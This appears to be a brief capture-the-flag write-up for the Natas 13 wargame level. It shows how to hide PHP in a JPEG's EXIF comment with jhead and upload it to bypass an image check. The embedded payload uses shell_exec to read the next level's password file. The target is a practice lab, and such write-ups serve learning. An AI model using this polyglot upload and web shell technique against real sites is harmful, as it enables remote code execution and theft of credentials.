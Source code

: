 # Natas 13 solution

1. Get jpg cat image, make it < 1kb
2. Clean image (delete extra headers): `jhead -purejpg <filename>.jpg`
3. Edit exif comment `jhead -ce <filename>.jpg`
```<?php
$output = shell_exec('cat /etc/natas_webpass/natas14');
echo $output;
 __halt_compiler();
 ?>```
 
 4. upload file and voila
